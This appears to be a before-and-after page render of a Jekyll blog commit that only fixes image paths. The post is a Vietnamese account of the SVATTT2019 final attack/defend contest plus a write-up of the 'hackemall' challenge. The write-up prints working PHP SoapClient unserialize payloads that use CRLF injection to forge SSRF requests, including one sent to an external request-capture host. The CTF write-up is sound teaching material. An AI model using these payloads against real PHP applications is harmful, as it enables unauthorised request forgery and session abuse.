

Before and after one commit to Q5Ca/Q5Ca.github.io, a Jekyll site: the page built from _posts/2019-12-01-SVATTT2019-final-ke-chuyen-di-thi-va-wu-hackemall.md, in a window 1280 px wide and 900 px high, scrolled down 310 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
fix format

````diff
--- a/_posts/2019-12-01-SVATTT2019-final-ke-chuyen-di-thi-va-wu-hackemall.md
+++ b/_posts/2019-12-01-SVATTT2019-final-ke-chuyen-di-thi-va-wu-hackemall.md
@@ -16,9 +16,13 @@ Cuộc thi cũng đã kết thúc được 2 ngày rồi. Nay mình ngồi gõ m
 Buổi sáng trước khi thi mình phải dậy sớm đi học thể dục rồi mới đi thi được :'( Lý do mình không thể nghỉ được là vì trước đó đã nghỉ quá nhiều, nghỉ thêm buổi nữa là lại được tập thể dục thêm kì nữa :'( Cơ mà học xong đến nơi thi thì vẫn được ngồi nghỉ ngơi chuẩn bị thêm gần 2 tiếng nữa cuộc thi mới bắt đầu 😌
 Cuộc thi được tổ chức theo hình thức attack/defend. Đây là lần đầu tiên mình vào được chung kết một cuộc thi onsite lại chơi kiểu atk/def nên cũng khá bỡ ngỡ và thích thú :v Cụ thể cách thi như thế này:
 Mỗi đội được BTC cấp 1 con server chạy các dịch vụ giống như kiểu 1 bài jeopardy và một con proxy đứng trước con server, traffic đến các service sẽ route qua con proxy. BTC không cho các đội control con server mà cho quyền root con proxy của đội. Như vậy theo mình thấy cách tiếp cận để attack là khá giống khi chơi các giải CTF bình thường, nếu bài cho source thì sẽ để trên scroreboard, còn để defend sẽ dựa vào việc monitor traffic qua con proxy để filter, không phải bằng cách vá lỗi chương trình. Đây là hình minh họa cách setup của BTC:
-![Network.png](/assets/images/Network.png)
+
+![Network.png](../assets/images/Network.png)
+
 Theo như kế hoạch dự định thì team mình sẽ thay thế luôn cái cơ chế forward do BTC cài đặt trên proxy bằng cái [portforwarder](https://github.com/Q5Ca/simple-portforwarder) đã code ở nhà để có thể monitor cũng như control traffic tốt hơn. Thế nhưng mình và người a cùng tem đã mắc một sai lầm đó là sử dụng lệnh `iptables -L` để tìm rule forward của BTC, và cả buổi đã không tìm thấy để tắt nó đi :'( Nguyên nhân thì đến sau khi thi một người anh ở UET nói mình mới biết, là do cái rule đó nằm ở chain PREROUTING và dùng -L không nó chỉ list chain INPUT. Trước đó mình đã thử forward traffic bằng iptables một lần rồi, cách đặt rule cũng y như vậy mà suốt thời gian thi lại quên mất.
-![shame-on-me](/assets/images/shame-on-me.jpg)
+
+![shame-on-me](../assets/images/shame-on-me.jpg)
+
 Ngoài chuyện đó ra thì quá trình thi của team mình diễn ra như sau: Sau khi cuộc thi bắt đầu một khoảng thời gian thì thằng bạn cùng team bảo nó có hướng bài crypto và đã ra đoạn SVATTT trong flag, sau đó một khoảng thời gian nữa thì nó ra được full flag thật. Và đó cũng là bài giúp team mình ghi phần lớn số điểm trong cuộc thi. Có thể nói thanh niên lại một lần nữa gank tem 🙏
 Một vài round đầu sau khi ra bài đó thì team mình chỉ attack và submit flag được một số team do code tool tự động bị lỗi, 2 thanh niên trong team ngồi exploit bằng tay và copy paste để submit flag. Sau khi fix được lỗi thì tool tự động chạy khá ngon (một số flag lấy được nhưng submit lại không được, hình như là do lúc đó là round mới và con bot đổi flag chưa đổi xong). Team mình dần vươn lên top 2 vào tầm buổi trưa. Sau đó thì cứ mỗi round mới team mình lại chạy tool auto attack 2 3 lần và bám trụ được trong top 2 một thời gian khá lâu. Bên cạnh đó team mình còn thịt được 2 bài jeo, ăn được thêm 40000 điểm nữa.
 Những tưởng tình hình sẽ tiếp tục khả quan thì đến giai đoạn cuối cuộc thi, sai lầm kể lúc trước bắt đầu bộc phát tác hại. Team mình không chặn được các đợt tấn công lại mất khá nhiều thời gian để build lại payload do các đội khác attack cộng với service của team mình thỉnh thoảng lại nghoẻo mà mình không biết lý do tại sao. Kết quả team mình cứ dần trôi xuống trong sự buồn đau và bất lực không biết phải làm gì 😭 và kết thúc ở vị trí thứ 6 trên scoreboard attack defend. Cộng với điểm phần jeopardy nữa thì chung cuộc team mình đứng thứ 4.
@@ -29,11 +33,17 @@ Dù sao thì đây cũng là một kỉ niệm đáng nhớ với cả team, có
 Tóm tắt sơ qua bài này là về kĩ thuật để SSRF qua unserialize. Điểm đặc biệt là ta sẽ sử dụng một class có sẵn trong PHP (cần cài thêm extension) chứ không phải trong code của ứng dụng. Khi mình viết writeup này thì server đã đóng rồi, nên mình đã xin [source](../archives/SVATTT2019-final/nanana.zip) từ tác giả để dựng lại (pass: tsu1234).
 Khi tiếp cận bài này thì theo kinh nghiệm, việc đầu tiên mình làm là dạo một vòng qua ứng dụng, dùng thử các chức năng của nó để xem có j bất thường không. Đã từng có bài ctf có cho source và mình đã tìm ra bug luôn khi blackbox, nếu ngồi đọc cả mớ code của nó thì chắc sẽ mất nhiều thời gian hơn để tìm ra 😛
 Về bài `hackemall` này thì cơ bản có các chức năng chính để ta có thể bắt pokemon với một xác suất bắt thành công nào đó.
-![77.PNG](/assets/images/77.PNG)
+
+![77.PNG](../assets/images/77.PNG)
+
 Sau khi nghịch một lúc thì mình check trong burp và phát hiện ra cái cookie khả nghi có dạng object serialize. Đến đây thì mình đoán chắc rằng bài này sẽ liên quan đến deserialize rồi :v
-![78.PNG](/assets/images/78.PNG)
+
+![78.PNG](../assets/images/78.PNG)
+
 Sau đó mình thử bắt một vài lần bằng cách ấn `USE POKE BALL` thì thấy bung ra source code. 😙
-![79.PNG](/assets/images/79.PNG)
+
+![79.PNG](../assets/images/79.PNG)
+
 Đọc source thì mình nhận thấy để lấy flag thì cần dùng đến `master_ball`
 ```php
   function use_master_ball()
@@ -67,11 +77,16 @@ if (!isset($_SESSION['poke_ball']) or !isset($_SESSION['master_ball']))
 }
 ```
 Để lấy được `master_ball` thì sau khi mình dùng hết `poke_ball` thì thấy link này
-![80.PNG](/assets/images/80.PNG)
-![81.PNG](/assets/images/81.PNG)
+
+![80.PNG](../assets/images/80.PNG)
+
+![81.PNG](../assets/images/81.PNG)
+
 Như vậy để lấy `master_ball` thì cần pass được cái check `$_SERVER["REMOTE_ADDR"]==="127.0.0.1" or $_SERVER["REMOTE_ADDR"]==="::1"`. Mình có thử dùng header `X-Forwarded-For` và một kĩ thuật khác khá mới là [Abusing HTTP hop-by-hop request headers](https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers) nhưng không thành công. Cũng hợp lý mà vì nếu thành công thì hóa ra cái cookie khả nghi kia lại không để làm gì à :v
 Check trong code thì mình thấy cái cookie được unserialize thật
-![82.PNG](/assets/images/82.PNG)
+
+![82.PNG](../assets/images/82.PNG)
+
 Có `unserialize` và cần SSRF 🤔 Do đã từng đọc trong slide [này](https://2018.zeronights.ru/wp-content/uploads/materials/9%20ZN2018%20WV%20-%20PHP%20unserialize.pdf) nên mình nghĩ ngay đến gadget dùng method `__call` của `SoapClient`. Điều kiện để có thể exploit được là:
 - Server phải cài extension soap thì mới có class SoapClient
 ```
@@ -98,10 +113,15 @@ Lưu ý để build payload theo cách này thì máy bạn cũng cài php-soap
 echo urlencode(serialize($o));
 //O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A2%3A%22cc%22%3Bs%3A8%3A%22location%22%3Bs%3A35%3A%22http%3A%2F%2Fq5ca0.free.beeceptor.com%2Fabc%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
 ```
-![83.PNG](/assets/images/83.PNG)
-![84.PNG](/assets/images/84.PNG)
+
+![83.PNG](../assets/images/83.PNG)
+
+![84.PNG](../assets/images/84.PNG)
+
 Ngon rồi có request, vậy là sure kèo mình đang đi đúng hướng. Nhưng để SSRF được để lấy master_ball thì còn một khó khăn này: Xem xét kĩ reuqest dùng SoapClient gửi lên thì nó trông như sau
-![85.PNG](/assets/images/85.PNG)
+
+![85.PNG](../assets/images/85.PNG)
+
 Để lấy được master_ball thì ta không chỉ cần control được data để thành `ball=master_ball` mà còn phải sửa được `Content-Type` thành `application/x-www-form-urlencoded` vì hiện giờ nó là `text/xml; charset=utf-8`, PHP sẽ không cho data vào `$_POST`
 May mắn là ta có thể inject CRLF vào request từ SoapClient. SoapClient có thuộc tính `user_agent` để đặt giá trị của header `User-Agent` trong request. Và ta có thể inject được vào như thế này :v
 ```php
@@ -109,7 +129,9 @@ May mắn là ta có thể inject CRLF vào request từ SoapClient. SoapClient
 $o = new SoapClient(null,array('location'=>'http://localhost:4444/abc','uri'=>'cc', 'user_agent' => "a\r\nanother: header"));
 $o->lol();
 ```
-![86.PNG](/assets/images/86.PNG)
+
+![86.PNG](../assets/images/86.PNG)
+
 Header `User-Agent` lại ở trên `Content-Type` nên việc ghi đè là hoàn toàn có thể :v
 Tóm lại mình gen payload để lấy master_ball như sau: Lưu ý là do số `master_ball` lưu trong `$_SESSION` nên cần thêm cookie `PHPSESSID` để định danh cho session ta muốn lấy `master_ball`
 ```php
@@ -121,10 +143,16 @@ echo urlencode(serialize($o));
 // O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A2%3A%22cc%22%3Bs%3A8%3A%22location%22%3Bs%3A45%3A%22http%3A%2F%2Flocalhost%2Fctf%2Fsvattt%2Fget_more_ball.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A137%3A%22a%0D%0ACookie%3A+PHPSESSID%3Da9pgltk0cp2h3tpat8p7pdvm66%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A16%0D%0A%0D%0Aball%3Dmaster_ball%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
 ```
 Submit lên và đợi một lúc ...
-![87.PNG](/assets/images/87.PNG)
+
+![87.PNG](../assets/images/87.PNG)
+
 Check lại và ta đã có 1 master_ball 😍
-![88.PNG](/assets/images/88.PNG)
+
+![88.PNG](../assets/images/88.PNG)
+
 Lấy flag thôi :v
-![89.PNG](/assets/images/89.PNG)
+
+![89.PNG](../assets/images/89.PNG)
+
 Bên cạnh đó bạn cũng có thể inject CRLF vào `uri` và tạo một request mới được sau request ban đầu. Chi tiết cách này bạn xem ở [writeup](https://youtu.be/oTlXtBgDlSo) của chính tác giả nhé :D
 Thú thật mình cũng ấp ủ kĩ thuật khá lâu rồi, hôm thi có bài này mới dc áp dụng thực tế :v Thanks tác giả @tsug0d
````
